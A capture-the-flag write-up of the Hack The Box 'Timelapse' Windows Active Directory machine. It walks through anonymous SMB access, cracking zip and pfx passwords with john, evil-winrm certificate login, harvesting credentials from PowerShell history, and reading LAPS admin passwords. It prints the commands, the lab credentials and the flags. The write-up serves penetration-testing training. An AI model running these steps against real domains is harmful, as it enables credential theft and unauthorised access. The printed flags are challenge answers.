

+++
title = "HTB - Timelapse"
date = 2025-03-07
+++

---
title: "Timelapse - Hack the Box"
date: 2024-11-11 06:20:20 -0400
categories: [Hack the Box]
tags: [Walkthrough, Windows, Active-Directory, Password-Cracking, Bloodhound, Evil-WinRM, Easy]
image: /assets/Timelapse.png
---
</img>

Timelapse is an easy windows machine that starts with enumerating an exposed SMB share. Therein lies a `win-rm` file that can only be accessed after cracking a series of passwords using tools like `john` and `openssl`. Once the credentials are had, the attacker must look at a previous `powershell` history file to uncover credentials for a higher-privilege service account, and then abuse privileges to read the local admin password to get onto the box as root. Let's get cracking.

### Scan
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-11 06:20 EST
Stats: 0:03:16 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 62.81% done; ETC: 06:25 (0:01:57 remaining)
Stats: 0:07:00 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 61.11% done; ETC: 06:27 (0:00:10 remaining)
Stats: 0:07:05 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 72.22% done; ETC: 06:27 (0:00:08 remaining)
Nmap scan report for 10.10.11.152
Host is up (0.12s latency).
Not shown: 65517 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-11-11 19:27:20Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2024-11-11T19:28:52+00:00; +7h59m59s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49694/tcp open  msrpc             Microsoft Windows RPC
49719/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-11T19:28:12
|_  start_date: N/A
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 503.81 seconds
```

### Enumeration & Initial Access
Quite a bit to unpack here. Windows machines often have a number of ports open to try and disguise what the truly vulnerable services are. I like to work my way through a bit of a procedure in these cases, and I'll start by looking at `SMB`, `LDAP`, and `RPC`. Sometimes a DNS zone transfer will work as well and leak some information, but this is not the case here.  We know that we're dealing with a domain controller, and we see instances of `SSL`as well.

Starting off, an SMB scan to look for shares: `smbclient //timelapse.htb/Shares -U ''`. Syntax is pretty picky as we get into Active Directory and Windows, but so long as we know what we're dealing with in terms of syntax, everything should run smoothly. The above command simply attempts to connect with the SMB share will a null username and no password.

</img>

To our surprise, it works. We poke around a bit and see a `winrm-backup`, suggesting to a later stage pivot onto the box. We can move it to our machine with `get`, and convert the file to a crackable one with `zip2john winrm_backup.zip > break.zip` before feeding it into `john` with `john break.zip --wordlist=/usr/share/wordlists/rockyou.txt`

</img>

We find a password to be `supremelegacy`, and it looks like the key belongs to a user named `legacyy`. We'll keep this information for our notes.

When we unpack the `zip`, we get a `pfx` file. These are `PKCS#12` formatted files that usually contain keys for a user. We can use `openssl` to pry open the file, but we'll need another password. We can do a similar procedure with `pfx` files as with `zip` files, and use a tool called `pfx2john` to covert it to a crackable format and let loose:

`pfx2john legacyy_dev_auth.pfx > pxf.txt`

`john pxf.txt --wordlist=/usr/share/wordlists/rockyou.txt`

</img>

We get our password to access the file: `thuglegacy`

To extract the information, we can use `openssl`:

`openssl pkcs12 -in legacyy_dev_auth.pfx -info`

We've gotta enter the password three times, but once there, we get a certificate and a private key. Save each to it's own respective file. We can also see towards the bottom that the issuer of the certificate is `legacyy`, validating our credential set.

</img>

We can try to use a regular default command to brute-force RID's with `nxc` and see what other users exists within the domain:

`nxc smb dc01.timelapse.htb -u 'null' -p '' --rid-brute`

</img>

We can use `nxc` to perform almost any task regarding AD and Windows enumeration.  We see our `legacyy` user here, along with many others. Save these names to a file, and clean them up with: `cat users.txt | awk '{gsub(/^.*\\/, "", $6); print $6}' > adusers.txt`. 

We can pass our credentials (Username, Certificate, and Key) through `evil-winrm` given the correct port is open. We can tell from our scans that an `SSL` version of the service is listening. All we need to do is specify that we want the secure connection by adding `-S` to our usual command:

`evil-winrm -S -i 10.10.11.152 -u "legacyy" -c certificate.legacyy -k private.key`. I was prompted for the password again and entered the same one as above (`thuglegacy`).

Now that we are on the box, we can grab the user flag for our notes.

USER: `6a97ce99ea20a239248f8814accbf0a5`

### Privilege Escalation 
The first thing I like to do is check privileges. We can run `whoami /all` and see what populates.

</img>

There's not much here... We aren't allowed `systeminfo` either.

We can look around in the desktop directory, but there isn't much besides the flag. In the user's base directory, there're interesting places to look. We can use `gci -force .` to list everything (Windows equivalent to ls -la). `AppData` is the first thing that catches my eye. Sometimes, there'll be records of previous `powershell` commands ran by the user. In this case, we can visit: `\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine>` and find a history file:

</img>

We're able to find credentials to that service account that we saw earlier!:`svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`

Let's restart the `evil-winrm`session, and check privileges and groups due to the unique nature of service accounts:

`evil-winrm -S -i timelapse.htb -u "svc_deploy" -p 'E3R$Q62^12p7PLlC%KWaxuaV'`

Now, we don't have any changes when running `whoami /all`, but we can supplement this with the `bloodhound-python` ingester:

`bloodhound-python -d timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -ns 10.10.11.152 -c all -v --dns-timeout 3600`

From here, once our files are finished, we can start the service with `neo4j console`, and `bloodhound`. Import when ready, and then examine the relationships.

Poking around, make sure to look at the node information as well as the analysis queries. Bloodhound is a stupidly powerful tool when leveraged.

</img>

Instantly, checking nodes, we see that `svc_deploy` is a part of the Local Administrator Password Solution (LAPS) readers. This means that we can access cleartext local administrator passwords! The way to do this is by using the `Get-ADComputer` function on the machine and search for the `ms-mcs-admpwd`. In an alternative context, you could just use `*` to pull up everything:

`Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property 'ms-mcs-admpwd'`

</img>

Looks like we're cooking. `Administrator:6)hK@[10CI2-4t83.1![a8Y(`

NOTE: There's also a python script to do this called Laps.py

Restart our session:

`evil-winrm -S -i 10.10.11.152 -u "Administrator" -p '6)hK@[10CI2-4t83.1![a8Y('`

We don't see the file in Administrator directory. Look under TRX user ;)

ROOt:`8aeec4bb73d4353347c36668939e3dd7`


